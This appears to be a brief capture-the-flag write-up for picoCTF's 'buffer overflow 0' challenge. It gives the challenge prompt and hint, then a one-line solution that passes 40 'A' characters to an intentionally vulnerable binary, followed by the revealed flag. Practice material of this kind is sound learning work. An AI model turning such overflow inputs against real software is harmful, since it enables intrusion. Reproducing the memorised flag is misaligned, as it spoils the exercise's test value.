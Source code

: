 # buffer overflow 0 - Points: 150 - (Solves: 578)

Let's start off simple, can you overflow the right buffer in
this [program][1] to get the flag?

You can also find it in

    /problems/buffer-overflow-0_0_6461b382721ccca2318b1d981d363924

on the shell server. [Source][2].

[1]: https://2018shell2.picoctf.com/static/8ea6ca6c7edf2c50065e540c90207284/vuln
[2]: https://2018shell2.picoctf.com/static/8ea6ca6c7edf2c50065e540c90207284/vuln.c

## Hint

    How can you trigger the flag to print?
    If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

---

```sh
$ ./vuln $(python -c 'print("A"*40)')
picoCTF{ov3rfl0ws_ar3nt_that_bad_a54b012c}
```
